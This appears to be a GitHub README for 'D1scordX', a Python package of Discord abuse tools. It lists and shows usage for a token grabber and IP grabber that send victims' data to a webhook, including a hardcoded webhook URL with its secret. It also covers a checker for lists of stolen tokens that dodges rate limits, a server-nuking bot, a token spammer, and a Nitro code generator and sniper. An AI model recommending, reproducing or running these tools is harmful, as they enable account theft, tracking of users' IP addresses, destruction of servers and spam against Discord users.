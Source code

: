<p align="center">
  <b>Link:</b><br>
  <a href="https://discord.gg/yBA7Wk67rH">Discord</a> |
  <a href="https://www.youtube.com/c/XinGod">YouTube</a> |
  <a href="https://github.com/XinOnGithub">Github</a>
  <br>
  <img src="https://cdn.discordapp.com/icons/791223032215240725/a_34b811424e1310fa438832dad9d113cf.gif">
</p>
<h1 align="center">Setup</h1>

## Tips:
- **Install module with**: ``pip install D1scordX``

## Features:

- CheckTokens   |   Check a token list from txt file and bypass ratelimit(discord api(not bypassing Cloudflare))
- TokenGrabber  |   Grab discord token using webhook
- IpGrabber     |   Grab ip and send to discord webhook
- SelfNukeBot   |   Nuke discord server with your own account
- TokenSpammer  |   Spam message with your **valid token**
- GenerateNitro |   Generate nitro and save on a txt file
- NitroSniper   |   Snipe discord nitro

## How to use:

- **CheckTokens**
```py
from D1scordX import CheckTokens

useragent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
CheckTokens('filename.txt',useragent)

#in filename.txt we have token(list)
```

- **TokenGrabber**
```py
from D1scordX import TokenGrabber

webhook = 'https://discord.com/api/webhooks/826913797411045396/M1J0F8t7ngBLqWY1CEK3dDvCY4eN-YYLwhNkNKJj1MZKOKvwDViHgkqKGSa5TRjownWo'
TokenGrabber(webhook)
```

- **SelfNukeBot**
```py
from D1scordX import SelfNukeBot

token = 'token'
prefix = 'bot prefix ex:$'
SelfNukeBot(token,prefix)
```

- **TokenSpammer**
```py
from D1scordX import TokenSpammer

TokenSpammer('my token file.txt',channel id (791225898242015255),message to send,10)
ex:TokenSpammer('tokens.txt',791225898242015255,hello world,10)

#in my token file.txt we have token(list)
```

- **GenerateNitro**
```py
from D1scordX import GenerateNitro

GenerateNitro('outpout file.txt',count of nitro)
ex:GenerateNitro('mynitro.txt',100)
```

```
- **IpGrabber**
```py
from D1scordX import IpGrabber

webhook = 'Your Webhhook Url'
IpGrabber(webhook)
```

```

- **NitroSniper**
```py
from D1scordX import NitroSniper

token = 'your token'
NitroSniper(token)
```